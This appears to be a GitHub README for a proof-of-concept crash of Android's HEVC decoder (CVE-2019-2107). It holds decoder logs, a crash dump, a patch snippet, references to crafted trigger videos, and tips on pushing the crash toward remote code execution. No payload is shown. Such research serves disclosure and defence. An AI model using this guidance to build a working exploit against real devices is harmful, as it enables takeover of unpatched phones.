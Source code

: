 # CVE-2019-2107
CVE-2019-2107

CVE-2019-2107 - looks scary. Still remember Stagefright and PNG bugs vulns .... With CVE-2019-2107 the decoder/codec runs under mediacodec user and with properly "crafted" video (with tiles enabled - ps_pps->i1_tiles_enabled_flag)  you can possibly do RCE. The codec affected is HVEC (a.k.a H.265 and MPEG-H Part 2) #exploit  #rce #android #stagefright #cve


![alt text](CVE-2019-2107.png)


# More infos

LineageOS (Android):
```
02-11 20:18:48.238   260   260 D FFmpegExtractor: ffmpeg detected media content as 'video/hevc' with confidence 0.08
02-11 20:18:48.239   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
02-11 20:18:48.239   260   260 I FFMPEG  : [hevc @ 0xb348f000] PPS id out of range: 0
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] PPS id out of range: 0
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Error parsing NAL unit #5.
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
```

mplayer (laptop)
```
id: 0
[hevc @ 0x7f0bf58a7560]Decoding VPS
[hevc @ 0x7f0bf58a7560]Main profile bitstream
[hevc @ 0x7f0bf58a7560]Decoding SPS
[hevc @ 0x7f0bf58a7560]Main profile bitstream
[hevc @ 0x7f0bf58a7560]Decoding VUI
[hevc @ 0x7f0bf58a7560]Decoding PPS
[hevc @ 0x7f0bf58a7560]Invalid tile widths.
[hevc @ 0x7f0bf58a7560]Decoding SEI
[hevc @ 0x7f0bf58a7560]Skipped PREFIX SEI 5
[hevc @ 0x7f0bf58a7560]PPS id out of range: 0
[hevc @ 0x7f0bf58a7560]Error parsing NAL unit #5.
Error while decoding frame!
```


This stops it when the tile width is bigger than allowed:
https://gitlab.freedesktop.org/gstreamer/meson-ports/ffmpeg/blob/ebf648d490448d511b5fe970d76040169e65ef74/libavcodec/hevc_ps.c#L1526

So the check are there.

On stock/google Andoird I think it will use *libhevc*, not ffmpeg, when using VideoPlayer.

https://www.droidviews.com/enjoy-hevc-h-265-video-playback-on-android/

I have the google codec:

OMX.google.hevc.decoder

I am wondering however why it does not crash ....

Attaching the video (videopoc.mp4) that should trigger this condition:

```
if (value >= ps_sps->i2_pic_wd_in_ctb - start)
+                        {
+                            return IHEVCD_INVALID_HEADER;
+                        }
```
Maybe somebody have more luck.

# More infos 2

Whoooo hooo .... made it :)

Proof of concept is in `hevc-crash-poc.mp4`, other videos are for non andoird players.

Hvec-"fright" is possible. You can own the mobile by viewing a video with payload. In my example I didn't include real payload.


```
07-13 21:50:59.000  3351  3351 I /system/bin/tombstoned: received crash request for pid 24089
07-13 21:50:59.006 24089 24089 F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
07-13 21:50:59.006 24089 24089 F DEBUG   : Build fingerprint: 'samsung/hero2ltexx/hero2lte:8.0.0/R16NW/G935FXXS4ESC3:user/release-keys'
07-13 21:50:59.006 24089 24089 F DEBUG   : Revision: '9'
07-13 21:50:59.006 24089 24089 F DEBUG   : ABI: 'arm64'
07-13 21:50:59.006 24089 24089 F DEBUG   : pid: 24089, tid: 24089, name: media.extractor  >>> mediaextractor <<<
07-13 21:50:59.006 24089 24089 F DEBUG   : signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x7ccb800050
07-13 21:50:59.009 24089 24089 F DEBUG   :     x0   00000000ffffff36  x1   0000000000000000  x2   00000000000000f0  x3   0000000000000001
07-13 21:50:59.009 24089 24089 F DEBUG   :     x4   0000000000000001  x5   0000007ccb5df1b8  x6   0000007cc927363e  x7   0000007cc8e7bd04
07-13 21:50:59.009 24089 24089 F DEBUG   :     x8   0000000000004170  x9   0000000000004160  x10  00000000ffffffff  x11  0000007ccb7fbef0
07-13 21:50:59.010 24089 24089 F DEBUG   :     x12  0000007ccb5d3ce0  x13  000000000000001e  x14  0000000000000003  x15  0000000000000001
07-13 21:50:59.010 24089 24089 F DEBUG   :     x16  0000007cc99f5f50  x17  0000007ccb88885c  x18  0000007ccb566225  x19  0000007ccb562020
07-13 21:50:59.010 24089 24089 F DEBUG   :     x20  0000007ccb4f18a0  x21  0000007ccb468c6c  x22  0000000000000000  x23  0000000000000006
07-13 21:50:59.010 24089 24089 F DEBUG   :     x24  000000000000001e  x25  0000000000000094  x26  0000000000004160  x27  0000000000000001
07-13 21:50:59.010 24089 24089 F DEBUG   :     x28  0000007ccb55e750  x29  0000007fd6d39d90  x30  0000007cc99c4438
07-13 21:50:59.010 24089 24089 F DEBUG   :     sp   0000007fd6d39d20  pc   0000007cc99c44c4  pstate 0000000080000000
07-13 21:50:59.013 24089 24089 F DEBUG   : 
--
```


![alt text](hevc-crash.png)


# More infos 3

If you want to bring it further to get RCE (Remote Command Execution)

I would start with getting LineageOS rom with debug build (if you don't have a rooted target phone, disassembly gives you headaches, should be much easier to work with), possibly changing memory allocator to jemalloc (to target newer mobiles)
You could set it in your BoardConfig:

device/samsung/msm8226-common/BoardConfigCommon.mk

```
# Memory
#MALLOC_IMPL := dlmalloc
MALLOC_IMPL := jemalloc
```



I found that my Samsung mobile was using jemalloc, not sure about older/newer Mobile. Hopefully the same.

Some more info about jemallc/dlmalloc: https://blog.nsogroup.com/a-tale-of-two-mallocs-on-android-libc-allocators-part-1-dlmalloc/



Here I removed the checks from libavcodec.so

Test on LineageOS 7.1.2 on Samsung S3 Neo+

As we can see the mediaplayer has crashed/went away ... with unhandled events (*MediaPlayer: mediaplayer went away with unhandled events*). Not sure why it does not crash natively. To goal would be here to take the execution flow. Good luck!


```
02-25 16:44:15.008  2954  2954 I art     : Explicit concurrent mark sweep GC freed 4988(521KB) AllocSpace objects, 1(40KB) LOS objects, 25% free, 6MB/8MB, paused 484us total 43.471ms
02-25 16:44:15.011  2954  2954 I art     : Starting a blocking GC Explicit
02-25 16:44:15.046  2954  2954 I art     : Explicit concurrent mark sweep GC freed 435(17KB) AllocSpace objects, 0(0B) LOS objects, 24% free, 6MB/8MB, paused 523us total 34.700ms
02-25 16:44:15.083  2954  2954 W MediaPlayer: mediaplayer went away with unhandled events
```
